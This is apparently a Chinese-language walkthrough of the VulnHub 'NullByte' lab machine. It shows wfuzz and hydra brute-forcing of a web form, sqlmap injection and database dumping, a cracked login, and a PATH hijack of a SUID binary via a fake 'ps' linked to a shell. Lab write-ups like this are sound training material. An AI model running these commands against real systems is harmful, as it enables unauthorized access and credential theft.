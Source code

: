 ```yaml
---
layout: post
title:  "NullByte"
description: walkthrough
category: vulnhub
---
```

# NullByte

![image-20200623202132962]({{ site.url }}/assets/NullByte.assets/image-20200623202132962.png)

![image-20200623202252351]({{ site.url }}/assets/NullByte.assets/image-20200623202252351.png)

![image-20200623202923806]({{ site.url }}/assets/NullByte.assets/image-20200623202923806.png)

777端口，浏览器一闪而过

bp抓包发现是ssh

![image-20200623203957063]({{ site.url }}/assets/NullByte.assets/image-20200623203957063.png)

80端口

![image-20200623205040326]({{ site.url }}/assets/NullByte.assets/image-20200623205040326.png)

![image-20200623211512809]({{ site.url }}/assets/NullByte.assets/image-20200623211512809.png)

![image-20200623211544628]({{ site.url }}/assets/NullByte.assets/image-20200623211544628.png)



![image-20200623205140672]({{ site.url }}/assets/NullByte.assets/image-20200623205140672.png)

尝试了由这个关键词可以组合的目录，并没有新的信息

下载这个gif图片进行分析，并附加到利用cewl制作的字典中

![image-20200623213450820]({{ site.url }}/assets/NullByte.assets/image-20200623213450820.png)

再利用这个自动对目录进行重新FUZZ

```bash
wfuzz -w wordlist.txt http://192.168.43.11/FUZZ
```

虽然没有fuzz出目录，但是我们注意到一组字符串。

![image-20200623213831433]({{ site.url }}/assets/NullByte.assets/image-20200623213831433.png)

这个字符串是strings打出来的，但是并不是正常应该出现在图像文件字符。

这一点也同样可以用exiftool验证

![image-20200623220217741]({{ site.url }}/assets/NullByte.assets/image-20200623220217741.png)

![image-20200623212914653]({{ site.url }}/assets/NullByte.assets/image-20200623212914653.png)

尝试浏览

```bash
http://192.168.43.11/kzMb5nVYJw/
```

果然

![image-20200623214129680]({{ site.url }}/assets/NullByte.assets/image-20200623214129680.png)

这是在提示我们用暴力进行测试

先抓包看一下

![image-20200623214325473]({{ site.url }}/assets/NullByte.assets/image-20200623214325473.png)

错误会提示invalid key

![image-20200623214536349]({{ site.url }}/assets/NullByte.assets/image-20200623214536349.png)

构建hydra 语句

```bash
hydra -l "" -P /usr/share/wordlists/rockyou.txt 192.168.43.11 http-post-form "/kzMb5nVYJw/index.php:key=^PASS^:invalid key" -I
```

![image-20200623221742834]({{ site.url }}/assets/NullByte.assets/image-20200623221742834.png)

![image-20200623221933530]({{ site.url }}/assets/NullByte.assets/image-20200623221933530.png)

抓一下包

![image-20200623222140045]({{ site.url }}/assets/NullByte.assets/image-20200623222140045.png)

反复测试了几次可以输入的内容，回显都只有一种。

fuzz也没有打出其他内容，参考之前登录的时候说登录的form没有连接到mysql，那么这个form可能连接到mysql？

尝试sqlmay跑一下

```bash
sqlmay -u "http://192.168.43.11/kzMb5nVYJw/420search.php?usrtosearch=user" --dbs
```

![image-20200623223000280]({{ site.url }}/assets/NullByte.assets/image-20200623223000280.png)

果然存在注入，之前打出了phpmyadmin，先dump

```bash
sqlmap -u "http://192.168.43.11/kzMb5nVYJw/420search.php?usrtosearch=user" -D phpmyadmin --dump --batch
```

都是空表，没有内容。再dump seth

```bash
sqlmap -u "http://192.168.43.11/kzMb5nVYJw/420search.php?usrtosearch=user" -D seth --dump --batch
```

![image-20200623224153515]({{ site.url }}/assets/NullByte.assets/image-20200623224153515.png)

```bash
ramses:YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE
```

解码

![image-20200623224347932]({{ site.url }}/assets/NullByte.assets/image-20200623224347932.png)

```bash
c6d6bd7ebf806f43c76acc3681703b81
```

![image-20200623224709627]({{ site.url }}/assets/NullByte.assets/image-20200623224709627.png)

![image-20200623224743950]({{ site.url }}/assets/NullByte.assets/image-20200623224743950.png)

```bash
ramses:omega
```

我们之前打出777是ssh，尝试登录

![image-20200623224931488]({{ site.url }}/assets/NullByte.assets/image-20200623224931488.png)

基础枚举，看来我们有一个suid文件

![image-20200623225817866]({{ site.url }}/assets/NullByte.assets/image-20200623225817866.png)

![image-20200623225945387]({{ site.url }}/assets/NullByte.assets/image-20200623225945387.png)

看上去这个程序应该是调用了ps

![image-20200623230215909]({{ site.url }}/assets/NullByte.assets/image-20200623230215909.png)

我们可以尝试将ps替换成bash，并修改环境变量。从而欺骗procwatch

```bash
ln -s /bin/bash ps
export PATH=`pwd`:${PATH}
```

![image-20200623231924275]({{ site.url }}/assets/NullByte.assets/image-20200623231924275.png)

![image-20200623231951589]({{ site.url }}/assets/NullByte.assets/image-20200623231951589.png)

可以成功调用bash，但是用户并不是root

删除我们建立的伪造ps，重新执行procwatch查看一下，发现procwatch中ps中显示的shell是sh

![image-20200623232136292]({{ site.url }}/assets/NullByte.assets/image-20200623232136292.png)

重新链接ps到sh

```bash
ln -s /bin/sh ps
export PATH=`pwd`:${PATH}
```

![image-20200623232305896]({{ site.url }}/assets/NullByte.assets/image-20200623232305896.png)